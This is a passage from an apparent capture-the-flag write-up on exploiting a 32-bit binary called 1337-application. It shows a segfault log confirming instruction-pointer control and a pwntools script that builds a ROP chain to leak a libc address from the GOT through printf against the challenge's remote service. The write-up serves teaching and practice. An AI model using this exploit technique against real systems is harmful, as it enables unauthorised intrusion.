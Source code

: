 ```sh
[249935.313209] 1337-applicatio[3267699]: segfault at deadbeef ip 00000000deadbeef sp 00000000ffae8690 error 14 in libc-2.32.so[f7ca7000+1d000]
```

Success! Now that we can control the execution of the program, let's take a look at the next step.

### 2. Identifying the libc version

This is the most tricky part of the whole exploit. Because we don't know the libc version, we can't determine the offsets of the functions we want to call in libc. Fortunately, we can leak the addresses of functions in libc using the already available functions.

Using the `printf()` function, we can pass the address of a linked libc function from the GOT, and then look up the offset in a libc database, for example on https://libc.nullbyte.cat/. I leaked the address of `gets` as an example.

Pwntools has a great way of automatically finding gadgets and constructing a ROP chain for us, so we don't need to worry about the messy details. 

```py
from pwn import *

context.update(arch='i386', os='linux')
context.terminal = ["termite", "-e"]

elf = ELF("./1337-application")

# contruct the ROP chain
rop = ROP(elf)

# call printf with the function we want to leak the address of as a parameter,
# then continue by running the vuln function again
libc_function = "gets"
rop.call(elf.symbols["printf"], [elf.got[libc_function]])
rop.call(elf.symbols["vuln"], [elf.symbols["buf"]])

padding = cyclic(cyclic_find(0x63616164))
payload = padding + rop.chain()

r = remote("1337b01s.duckdns.org",2525)

r.sendline(payload)

# throw away the junk response 
r.recvuntil("\n")
r.recvuntil("\n")

# receive the leaked libc address
raw_leak = r.recv(4)
leaked_addr = u32(raw_leak.ljust(4, b"\x00"))

log.info("%s found at 0x%08x from address 0x%08x" % (libc_function, leaked_addr, elf.got[libc_function]))
```
